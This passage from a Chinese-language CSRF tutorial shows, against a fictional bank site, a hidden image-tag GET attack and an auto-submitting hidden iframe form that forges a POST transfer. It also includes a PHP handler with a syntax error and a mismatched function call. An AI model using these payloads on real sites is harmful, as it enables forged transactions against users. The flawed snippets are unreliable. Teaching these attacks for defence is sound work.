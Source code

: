 危险网站B，仍然只是包含那句 HTML 代码：

```html
<img src="http://www.mybank.com/Transfer.php?toBankId=11&money=1000">
```

和示例1中的操作一样，你首先登录了银行网站A，然后访问危险网站B，结果.....

和示例1一样，你再次没了1000块。

这次事故的原因是：银行后台使用了 `$_REQUEST` 去获取请求的数据，而 `$_REQUEST` 既可以获取 GET 请求的数据，也可以获取 POST 请求的数据，这就造成了在后台处理程序无法区分这到底是 GET 请求的数据还是 POST 请求的数据。在 PHP 中，可以使用 `$_GET` 和 `$_POST` 分别获取 GET 请求和 POST 请求的数据。在JAVA中，用于获取请求数据 request 一样存在不能区分 GET 请求数据和 POST 数据的问题。

### 示例3

经过前面2个惨痛的教训，银行决定把获取请求数据的方法也改了，改用 `$_POST`，只获取 POST 请求的数据，后台处理页面 `Transfer.php` 代码如下：

```php
<?php
    session_start();
	if (isset($_POST['toBankId'] &&　isset($_POST['money'])){
        buy_stocks($_POST['toBankId'],　$_POST['money']);
    }
?>
```

然而，危险网站B与时俱进，它也改了一下代码：

```html
<html>
    <head>
        <script type="text/javascript">
            function steal(){
                iframe = document.frames["steal"];　　
                iframe.document.Submit("transfer");　
            }　　　
        </script>　
    </head>　
    
    <body onload="steal()">　
        <iframe name="steal" display="none">　　　　　
            <form method="POST" name="transfer" action="http://www.myBank.com/Transfer.php">　
                <input type="hidden" name="toBankId" value="11">　　　　　　
                <input type="hidden" name="money" value="1000">　　
            </form>　　
        </iframe>　
    </body>
</html>
```

如果用户仍是继续上面的操作，很不幸，结果将会是再次丢失1000块......

因为在这里，危险网站B暗地里也发送了 POS T请求到银行！

总结一下上面3个例子，CSRF 主要的攻击模式基本上是以上的3种，其中以第1，2种最为严重，因为触发条件很简单，一个 `<img>` 就可以了。而第3种比较麻烦，需要使用 JavaScript，所以使用的机会会比前面的少很多，但无论是哪种情况，只要触发了 CSRF 攻击，后果都有可能很严重。
